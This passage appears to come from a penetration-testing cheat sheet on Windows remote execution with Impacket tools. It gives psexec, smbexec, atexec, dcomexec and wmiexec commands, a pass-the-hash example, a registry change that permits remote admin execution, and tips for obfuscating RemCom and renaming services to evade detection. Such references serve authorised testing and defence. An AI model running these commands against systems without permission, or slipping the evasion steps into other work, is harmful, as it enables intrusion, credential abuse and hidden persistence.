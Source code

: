 * `psexec`: equivalent of Windows PSEXEC using RemComSvc binary.

    ```ps1
    psexec.py DOMAIN/username:password@10.10.10.10
    ```

* `smbexec`: a similar approach to PSEXEC w/o using RemComSvc

    ```ps1
    smbexec.py DOMAIN/username:password@10.10.10.10
    ```

* `atexec`: executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.

    ```ps1
    atexec.py DOMAIN/username:password@10.10.10.10
    ```

* `dcomexec`: a semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints

    ```ps1
    dcomexec.py DOMAIN/username:password@10.10.10.10
    ```

* `wmiexec`: a semi-interactive shell, used through Windows Management Instrumentation. First it uses ports tcp/135 and tcp/445, and ultimately it communicates with the Winmgmt Windows service over dynamically allocated high port such as tcp/50911.

    ```ps1
    wmiexec.py DOMAIN/username:password@10.10.10.10
    wmiexec.py DOMAIN/username@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    ```

To allow Non-RID 500 local admin accounts performing Wmi or PsExec, execute:
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /f /d 1`
To prevent RID 500 from being able to WmiExec or PsExec, execute:
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v FilterAdministratorToken /t REG_DWORD /f /d 1`

### PSExec

Instead of uploading `psexeccsv` service binary, it uploads to `ADMIN$` a service binary with an arbitrary name.
PSExec default [kavika13/RemCom](https://github.com/kavika13/RemCom) binary is 10 years old, you might want to rebuild it and obfuscate it to reduce detections ([snovvcrash/RemComObf.sh](https://gist.github.com/snovvcrash/123945e8f06c7182769846265637fedb))

Use a custom binary and service name with : `psexec.py Administrator:Password123@IP -service-name customservicename -remote-binary-name custombin.exe`

Also a custom file can be specified with the parameter : `-file /tmp/RemComSvcCustom.exe`.
You need to update the pipe name to match "Custom_communication" in the line 163

```py
162    tid = s.connectTree('IPC$')
163    fid_main = self.openPipe(s,tid,r'\RemCom_communicaton',0x12019f)
```
